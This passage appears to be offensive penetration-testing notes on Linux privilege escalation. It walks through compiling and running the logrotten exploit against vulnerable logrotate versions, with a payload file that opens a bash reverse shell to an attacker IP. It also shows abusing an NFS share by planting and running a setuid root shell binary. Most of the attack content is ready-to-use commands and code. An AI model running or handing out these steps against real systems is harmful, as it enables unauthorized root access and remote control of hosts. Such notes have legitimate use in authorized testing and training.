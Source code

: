 - To exploit logrotate, we need some requirements that we have to fulfill.

      - we need write permissions on the log files
      - logrotate must run as a privileged user or root
      vulnerable versions:
          - 3.8.6
          - 3.11.0
          - 3.15.0
          - 3.18.0
          -

  There is a prefabricated exploit that we can use for this if the requirements are met. This exploit is named [logrotten](https://github.com/whotwagner/logrotten).

```bash
git clone https://github.com/whotwagner/logrotten.git
cd logrotten
gcc logrotten.c -o logrotten


# Determine which option logrotate uses in logrotate.conf
grep "create\|compress" /etc/logrotate.conf | grep -v "#"
# run rce
echo 'bash -i >& /dev/tcp/<AttaquantIP>/PORT 0>&1' > payload

# on attacking rce
./logrotten -p ./payload /tmp/tmp.log
```

**Ressouces**

- [Logrotten](https://github.com/whotwagner/logrotten)

###### Miscellaneous Techniques

- Network File System (NFS) allows users to access shared files or directories over the network hosted on Unix/Linux systems. NFS uses TCP/UDP port 2049. Any accessible mounts can be listed remotely

```bash
# list mounts
showmount -e <IP>
```

- create and mount binary

```c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
int main(void)
{
  setuid(0); setgid(0); system("/bin/bash");
}
```

```bash
# compile
 gcc shell.c -o shell
# mount
sudo mount -t nfs <IP>:/<ShareName> /mnt
cp shell /mnt
chmod u+s /mnt/shell

# exploit
#run shell on target share
./shell
```
